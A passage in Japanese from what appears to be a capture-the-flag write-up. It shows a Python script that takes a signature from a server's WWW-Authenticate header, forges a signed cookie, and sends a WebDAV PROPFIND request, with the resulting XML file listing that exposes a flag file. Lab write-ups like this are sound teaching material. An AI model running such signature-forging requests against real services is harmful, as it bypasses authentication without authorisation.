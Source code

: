 `PROPFIND /weeb/wtf/` を試してみましょう。署名周りの処理をした上で `PROPFIND /weeb/wtf/` する Python スクリプトを書きます。

```python
from itsdangerous import Signer, base64_encode, base64_decode
import requests
BASE = 'http://(省略)'

r = requests.get(BASE + '/', headers={
  'Origin': 'test '
})
sig = r.headers.get('WWW-Authenticate')
sig = sig[sig.index('sig=')+4:sig.index('{')]

print(sig)

r = requests.request('PROPFIND', BASE + '/weeb/wtf/', headers={
  'Origin': 'test',
  'User-Agent': ''
}, cookies={
  base64_encode('test').decode(): sig
})
print(r)
print(r.text)
```

実行してみると XML 形式でファイルの一覧が得られました。`weeb/wtf/static/FlAAaaaAGxe.wtf` という怪しげなパスも含まれています。これにフラグが含まれるのでしょう。

```
$ python test.py
0v5iCCjxIAcuRvsDRKNxfoXD6VI
<Response [200]>
<?xml version="1.0" encoding="utf-8"?><D:multistatus xmlns:D="DAV:"><D:response><D:href>:///weeb/wtf</D:href><D:propstat><D:prop><D:getcontentlength>0</D:getcontentlength><D:resourcetype/><D:creationdate>1616194551</D:creationdate><D:getlastmodified>1616194551</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/app.py</D:href><D:propstat><D:prop><D:getcontentlength>6608</D:getcontentlength><D:resourcetype/><D:creationdate>1616194463</D:creationdate><D:getlastmodified>1616194336</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/static</D:href><D:propstat><D:prop><D:getcontentlength>0</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616194547</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/static/style.css</D:href><D:propstat><D:prop><D:getcontentlength>427</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616194384</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/static/FlAAaaaAGxe.wtf</D:href><D:propstat><D:prop><D:getcontentlength>30</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616194441</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/utils.py</D:href><D:propstat><D:prop><D:getcontentlength>18538</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616191779</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/utils.pyc</D:href><D:propstat><D:prop><D:getcontentlength>15169</D:getcontentlength><D:resourcetype/><D:creationdate>1616194551</D:creationdate><D:getlastmodified>1616194551</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response></D:multistatus>
```
